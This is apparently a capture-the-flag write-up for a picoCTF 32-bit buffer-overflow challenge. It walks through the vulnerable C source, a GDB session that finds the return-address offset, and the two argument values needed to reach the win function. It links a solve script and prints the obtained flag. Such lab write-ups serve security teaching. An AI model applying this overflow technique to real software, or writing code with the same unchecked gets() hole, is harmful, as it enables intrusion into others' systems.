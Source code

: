 ### Binary Exploitation

### Source: PICOCTF

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ file vuln    
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ checksec vuln
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Desktop/CTF/Pico/bof2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we're working with a x86 binary. The protection enabled is just NX meaning if we get a buffer overflow we won't be able to inject shellcode to the stack and execute it

Source code is given

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

So this is also a ret2win chall but this time around we need to pass in 2 arguments before we get the flag

As usual lets get the offset

I'll use gdb then automate with pwntool

I won't explain my process here as i've severally repeated it in my other chall i wrote about

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ gdb -q vuln
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x08049338 <+0>:     endbr32 
   0x0804933c <+4>:     push   ebp
   0x0804933d <+5>:     mov    ebp,esp
   0x0804933f <+7>:     push   ebx
   0x08049340 <+8>:     sub    esp,0x74
   0x08049343 <+11>:    call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x08049348 <+16>:    add    ebx,0x2cb8
   0x0804934e <+22>:    sub    esp,0xc
   0x08049351 <+25>:    lea    eax,[ebp-0x6c]
   0x08049354 <+28>:    push   eax
   0x08049355 <+29>:    call   0x80490f0 <gets@plt>
   0x0804935a <+34>:    add    esp,0x10
   0x0804935d <+37>:    sub    esp,0xc
   0x08049360 <+40>:    lea    eax,[ebp-0x6c]
   0x08049363 <+43>:    push   eax
   0x08049364 <+44>:    call   0x8049120 <puts@plt>
   0x08049369 <+49>:    add    esp,0x10
   0x0804936c <+52>:    nop
   0x0804936d <+53>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08049370 <+56>:    leave  
   0x08049371 <+57>:    ret    
End of assembler dump.
gef➤  b *0x08049370
Breakpoint 1 at 0x8049370
gef➤  r
Starting program: /home/mark/Desktop/CTF/Pico/bof2/vuln 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc7000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
pwnerhacker
pwnerhacker

Breakpoint 1, 0x08049370 in vuln ()


[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xc       
$ebx   : 0x804c000  →  0x804bf10  →  <_DYNAMIC+0> add DWORD PTR [eax], eax
$ecx   : 0xf7e1e9b8  →  0x00000000
$edx   : 0x1       
$esp   : 0xffffcfc0  →  0xf7e1dda0  →  0xfbad2887
$ebp   : 0xffffd038  →  0xffffd058  →  0x00000000
$esi   : 0x80493f0  →  <__libc_csu_init+0> endbr32 
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x8049370  →  <vuln+56> leave 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcfc0│+0x0000: 0xf7e1dda0  →  0xfbad2887    ← $esp
0xffffcfc4│+0x0004: 0xf7e1dde7  →  0xe1e9b80a
0xffffcfc8│+0x0008: 0x00000001
0xffffcfcc│+0x000c: "pwnerhacker"
0xffffcfd0│+0x0010: "rhacker"
0xffffcfd4│+0x0014: 0x72656b ("ker"?)
0xffffcfd8│+0x0018: 0xf7c80aa9  →  <__overflow+9> add ebx, 0x19c54b
0xffffcfdc│+0x001c: 0xf7e1ba40  →  0x00000000
─────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049369 <vuln+49>        add    esp, 0x10
    0x804936c <vuln+52>        nop    
    0x804936d <vuln+53>        mov    ebx, DWORD PTR [ebp-0x4]
 →  0x8049370 <vuln+56>        leave  
    0x8049371 <vuln+57>        ret    
    0x8049372 <main+0>         endbr32 
    0x8049376 <main+4>         lea    ecx, [esp+0x4]
    0x804937a <main+8>         and    esp, 0xfffffff0
    0x804937d <main+11>        push   DWORD PTR [ecx-0x4]
─────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8049370 in vuln (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049370 → vuln()
[#1] 0x80493dd → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern pwnerhacker
[+] Searching 'pwnerhacker' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rw-
  0x804d1a0 - 0x804d1ad  →   "pwnerhacker\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffcfcc - 0xffffcfd7  →   "pwnerhacker" 
gef➤  i f
Stack level 0, frame at 0xffffd040:
 eip = 0x8049370 in vuln; saved eip = 0x80493dd
 called by frame at 0xffffd070
 Arglist at 0xffffd038, args: 
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebx at 0xffffd034, ebp at 0xffffd038, eip at 0xffffd03c
gef➤ 
```

Doing the math we get the offset `0xffffd03c - 0xffffcfcc = 0x70`

Jumping to the win function will not give us the flag

This is because the win function needs to argument to be passed for it to print the flag `win(param_1, param2)` where param_1 = 0xCAFEF00D and param_2 = 0xF00DF00D

And it does an if check to validate the parameter passed

```
if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
```

Here's my solve script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/picoctf/bo2/exploit.py)

Running it locally

```
└─$ python2 exploit.py
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Starting local process './vuln': pid 33669
[*] Switching to interactive mode
[*] flag{fake_flag_for_testing}
```

It worked, so i'll run it on the remote server

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ python2 exploit.py REMOTE saturn.picoctf.net 50844    
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Opening connection to saturn.picoctf.net on port 50844: Done
[*] Switching to interactive mode
[*] picoCTF{argum3nt5_4_d4yZ_31432deb}
[*] Closed connection to saturn.picoctf.net port 50844
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
